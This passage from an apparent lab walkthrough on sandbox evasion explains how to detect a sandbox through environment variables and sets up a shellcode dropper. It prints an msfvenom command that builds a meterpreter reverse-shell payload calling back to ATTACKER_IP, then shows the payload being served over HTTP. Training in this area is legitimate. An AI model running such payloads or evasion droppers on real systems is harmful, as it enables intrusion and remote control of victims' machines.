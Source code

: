 These techniques can vary in difficulty; therefore, you should consider how much time and effort you want to spend building out these evasion methods. A simple method, such as checking the systems environment variables (this can be done with **echo %VARIABLE%** or to display all variables, use the **set** command) for an item like the LogonServer, LogonUserSid, or LogonDomain may be much easier than implementing a Windows API.

## Setting the Stage  

Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

Before we move on to the next task, we're going to be starting with a basic dropper that retrieves shellcode from a Web Server (specifically from /index.raw) and injects it into memory, and executes the shellcode. It's important to note that all shellcode must be generated with MSFVenom in a raw format, and must be 64-bit, not 32-bit. It can be generated with the following command.

```shell-session
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```

The shellcode should then be hosted on the AttackBox via any HTTP Server. Python3's http.server module is highly portable and flexible and will serve as a good base for this task. In the real world, you may host your shellcode on your C2 server. For the purposes of the lab, we will be utilizing the Attackbox with no C2 server.

The code attached to this task has been tested and compiled using Visual Studio 2019 (or above). Download the dropper.cpp, and open it. It's important to note that there are several placeholder values on lines 16, 22, 24, 27, and 33 that you must update to make the code function properly. Once you have altered the values, compile the code for a 64-bit release.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250523150129.png)

# Implementing Various Evasion Techniques

---

## Diving into Sandbox Evasion

With this base code acquired, we will take our first step into the world of Sandbox Evasion. We're going to start with our sleep because it is the simplest. 

## Taking a Nap
